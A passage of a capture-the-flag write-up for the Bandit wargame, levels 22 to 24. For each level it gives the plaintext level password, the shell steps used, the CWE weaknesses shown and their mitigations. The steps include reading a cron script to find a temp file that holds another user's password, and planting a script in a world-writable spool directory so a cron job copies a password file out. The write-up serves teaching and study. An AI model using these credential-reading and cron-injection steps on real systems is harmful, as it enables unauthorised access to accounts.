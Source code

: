 
#### How could those sins be mitigated
* Do not leak sensitive information in world readable files
* Securely hash passwords
* Do not conceal files containing sensitive information with obscure filenames


---
### Bandit 23

#### Credentials
`bandit23:jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n`

#### How you passed the challenge
```sh
bandit22@bandit:~$ cat /etc/cron.d/cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
bandit22@bandit:~$ cat /usr/bin/cronjob_bandit23.sh 
...
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
...
cat /etc/bandit_pass/$myname > /tmp/$mytarget

bandit22@bandit:~$ cat /tmp/`echo I am user bandit23 | md5sum | cut -d ' ' -f 1`
<password>
```

#### What sins are evidenced in this challenge
* [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)
* [CWE-313: Cleartext Storage in a File or on Disk](https://cwe.mitre.org/data/definitions/313.htm)
* [CWE-656: Reliance on Security Through Obscurity](https://cwe.mitre.org/data/definitions/656.html)

#### How could those sins be mitigated
* Do not leak sensitive information in world readable files
* Securely hash passwords
* Do not conceal files containing sensitive information with obscure filenames



---
### Bandit 24

#### Credentials
`bandit24:UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

#### How you passed the challenge
```sh
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
# script that arbitrarily executes scripts in /var/spool/bandit24
bandit23@bandit:/tmp/test1254$ ls -ld /var/spool/bandit24
drwxrwx-wx 9 root bandit24 4096 Mar 28 00:22 /var/spool/bandit24    # this directory is writable by anyone

# make a script containing the following
#!/bin/bash

cat /etc/bandit_pass/bandit24 >> /tmp/badfile32

# make that file
```